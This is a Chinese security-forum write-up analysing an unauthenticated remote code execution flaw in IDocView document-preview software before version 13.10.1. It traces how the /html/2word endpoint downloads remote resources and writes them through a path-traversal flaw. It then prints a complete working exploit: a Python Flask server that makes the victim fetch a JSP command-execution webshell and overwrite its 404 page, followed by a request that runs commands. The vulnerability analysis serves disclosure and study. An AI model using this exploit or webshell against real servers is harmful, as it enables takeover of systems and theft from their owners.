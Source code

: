 

# 奇安信攻防社区-IDocView 前台远程代码执行漏洞分析

### IDocView 前台远程代码执行漏洞分析

IDocView 前台远程代码执行漏洞分析细节

![](assets/1701668680-75f6641b446c1f893755bf89e8dbbbfe.png)

昨天注意到一个 IDocView 系统的漏洞被披露了，发现是几个月之前审计过的漏洞，这里和师傅们分享一下当时的漏洞分析记录。

## 影响范围

iDocView < 13.10.1\_20231115

## 漏洞原理

漏洞原理大概就是使用未过滤的接口进行远程文件下载，会对传入的 url 进行下载，并且会解析 url 对应源码标签中的链接标签并且进行下载，而标签链接解析下载的过程中存在路径过滤缺陷导致任意文件上传。

## 过滤检查

IDocView 通过 Tomcat+Spring-Mvc 布置在 Windows 中，请求接口过滤通过继承于 org.springframework.web.servlet.handler.HandlerInterceptorAdapter 的 com.idocv.docview.interceptor.ViewInterceptor 进行定义，

com.idocv.docview.interceptor.ViewInterceptor#preHandle 是任何请求都会调用的过滤函数，主要会对文件预览、文件上传、文件下载功能接口进行身份验证。

且 com.idocv.docview.interceptor.ViewInterceptor#thdViewCheckSwitch=false 不会进行 upload 和 download 接口进行身份验证。

![](assets/1701668680-9a2cd265533cc10be5eed30e9cdf71e7.png)

## 漏洞入口

/html/2word对应的入口函数为com.idocv.docview.controller.HtmlController#toWord

![](assets/1701668680-d10b03cc63fa107585f8b2a27873052c.png)

函数大致流程如下：

1.  计算 url 的 md5 值作为子目录名
2.  判断子目录是否存在，不存在则根据 url 链接下载资源
3.  判断是否存在文件 md5Url + ".docx"是否存在
4.  不存在则通过 pandoc.exe 生成 md5Url + ".docx"文件
5.  返回 md5Url + ".docx"文件

其中关键函数为下载资源的 com.idocv.docview.util.GrabWebPageUtil#downloadHtml

![](assets/1701668680-01cd05aa44e1d4b1789f03672403f634.png)

传入 url 到 downloadHtml 函数后首先是会对 getWebPage 进行文件下载

（函数较长所以分几个部分截图了）

首先是进行一些请求的 header 设置

![](assets/1701668680-7c60d83588bc0228b258a90f7a5d146d.png)

下面会下载 url 文件源码内容后进行一些格式解析处理后写入到 url 链接中指定的文件名中

![](assets/1701668680-36d8ff0009b0d26c493e8d92925dfb51.png)

看到这里之前审计的时候发现有 asp、aspx、php 这些可能为 webshell 格式的过滤而没有过滤 jsp 后缀。传入第二个参数中的 outputDir 指定了目录，而这个目录并不能被我们直接通过 url 指定；同时下载的文件名在第三个参数指定为 index.html，所以下载文件的位置并不能给我们指定。

![](assets/1701668680-a6c25a0ca8468211aa244c01c897f95d.png)

问题并不是出在第一次执行的 getWebPage

## 远程文件下载

com.idocv.docview.util.GrabWebPageUtil#getWebPage(java.net.URL, java.io.File, java.lang.String)

在第一次下载 url 内容的时候并不能进行利用，但是在下面再次调用了 getWebPage 函数

![](assets/1701668680-860e196a738863b8e8997c0a63d7e882.png)

这里的双参数和三参数的 getWebPage 是一样的，双参数将最后一个保存文件名进行指定，如果第三个参数未指定，则会根据 url 获得最后一个/之后的字符串作为文件名

```Java
public static void getWebPage(URL obj, File outputDir) {
   getWebPage(obj, outputDir, (String)null);
}
```

```Java
String path = obj.getPath();
String filename = path.substring(path.lastIndexOf(47) + 1);
if (filename.equals("/") || filename.equals("")) {
   filename = "default.html";
}

System.out.println(filename);
if (StringUtils.isNotBlank(fileName)) {
   filename = fileName;
}
```

而之后在这个 For 循环中的链接是源自于第一次从链接中下载的页面源码，并且从中解析出 img、link、script 中的指定加载的远程连接文件，且解析后的链接会加入到 GrabUtility.*filesToGrab 中。*

录入访问链接[http://host:port/links.html返回的内容为：](http://host:port/links.html%E8%BF%94%E5%9B%9E%E7%9A%84%E5%86%85%E5%AE%B9%E4%B8%BA%EF%BC%9A)

```Java
<img src="https://host:port/1.png">
```

那么 1.png 图片就会下载于 md5 为名的子目录下：

![](assets/1701668680-ee8b468d497a2ca89b824097cf13286d.png)

## Poc 构建

到这里攻击流程其实就已经可以进行 webshell 文件上传了：

1.  web 服务器里面存放一个 links.html 文件写入带着目录穿越路径的 url 链接：
    
    ```Java
    <link href="http://127.0.0.1:5050/..\..\..\..\docview\\WEB-INF\\views\\404.jsp">
    ```
    
2.  访问`/docview/html/2word`传入 url=[http://server-host/links.html](http://server-host/links.html)
    
3.  受害服务器下载 links.html 文件并且解析出 link 标签的下载文件路径`..\..\..\..\docview\\WEB-INF\\views\\404.jsp`并且将文件名通过目录拼接的方式保存到本地
    
4.  web 服务器里面定义路由，当访问`..\..\..\..\docview\\WEB-INF\\views\\404.jsp`路径的时候，返回一个 webshell 文件
    
5.  最后访问一个任意 IdocView 不存在的路由就会加载覆盖后的 404.jspwebshell 文件
    

```Java
import random
import threading
import time
import requests
from flask import Flask, request

app = Flask(__name__)

raw_404_page="404 Page Text"
jsp_webshell = """
<!-- request with Parameter 'cmd'-->
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<%=output %>"""

@app.route('/<path:path>')
def serve_content(path):
    if "jsp" in request.url:
        return raw_404_page + jsp_webshell
    elif "links" in request.url:
        return  f"""<link href="http://127.0.0.1:5050/..\\..\\..\\..\\docview\\WEB-INF\\views\\404.jsp">"""
    else:
        return 'who are you???'

def exp(host):
    time.sleep(5)
    url = host + '/html/2word'
    r = requests.post(url,
                      data={
                          "url": f"http://127.0.0.1:5050/links.html_{random.Random().randint(0, 1000000)}"
                      })
    print(r.status_code)
    print(r.text)
    requests.get(host+"/xxx?cmd=calc")

if __name__ == '__main__':
    threading.Thread(target=exp,args=("http://192.168.92.1:8080/docview",)).start()
    app.run(port=5050,debug=True,host='0.0.0.0')
```

![](assets/1701668680-b3394651b8962e212fb7cbd545f7b670.png)

这是执行命令前访问/xxx?cmd=whoami 的结果

![](assets/1701668680-a48e135a8db6515997046adb7598d203.png)

执行脚本后 404 页面变化执行命令输出回显

![](assets/1701668680-dd990086fb913ac21bf7ab39ac5a4171.png)
